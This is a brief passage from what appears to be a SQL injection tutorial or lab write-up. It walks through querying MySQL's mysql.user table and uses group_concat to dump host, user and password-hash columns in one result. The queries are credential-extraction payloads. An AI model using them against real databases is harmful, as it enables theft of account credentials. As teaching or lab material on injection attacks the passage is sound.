 We get nothing because we’re querying more than one column in the sub select query. Let’s verify that by just outputting the password column.

```text
SELECT password FROM mysql.user
```

![](../images/max/994/1*qujhsF7FrdWIY_iuDvy58w.png)

We get a hash! In order to output multiple columns, you can use the group\_concat\(\) function.

```text
SELECT group_concat(host,user,password) FROM mysql.user
```

![](../images/max/1091/1*xKw6e8lMU__rlQeS9qzthg.png)
